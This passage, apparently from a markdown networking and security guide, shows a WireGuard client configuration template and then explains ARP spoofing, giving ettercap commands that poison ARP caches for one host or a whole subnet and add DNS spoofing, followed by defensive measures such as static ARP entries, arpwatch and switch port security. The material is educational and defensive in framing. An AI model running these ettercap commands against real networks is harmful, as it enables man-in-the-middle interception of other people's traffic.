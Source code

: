 **Client Configuration**:
```ini
# client.conf

[Interface]
PrivateKey = CLIENT_PRIVATE_KEY
Address = 10.0.0.2/24
DNS = 8.8.8.8

[Peer]
PublicKey = SERVER_PUBLIC_KEY
Endpoint = your-server-ip:51820
AllowedIPs = 0.0.0.0/0
PersistentKeepalive = 25
```

---

## ⚔️ Network Attack Types

### 🎭 ARP Spoofing/Poisoning

**Attack Principle**:
```
Normal ARP:
1. Host A: "What is the MAC address of 192.168.1.1?" (Broadcast)
2. Router: "192.168.1.1 is me, MAC: aa:bb:cc:dd:ee:ff"

ARP Spoofing:
1. Host A: "What is the MAC address of 192.168.1.1?" (Broadcast)
2. Attacker: "192.168.1.1 is me, MAC: 11:22:33:44:55:66" (Fake)
3. Host A: Sends traffic to attacker
```

**ARP Spoofing with Ettercap**:
```bash
# Scan targets
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//

# Target entire network
ettercap -T -M arp:remote /192.168.1.1// //

# Combined with DNS spoofing
ettercap -T -M arp:remote -P dns_spoof /192.168.1.1// //
```

**Protection Methods**:
```bash
# Static ARP table
arp -s 192.168.1.1 aa:bb:cc:dd:ee:ff

# ARP monitoring
arpwatch -i eth0

# Switch port security
switchport port-security
switchport port-security mac-address sticky
```
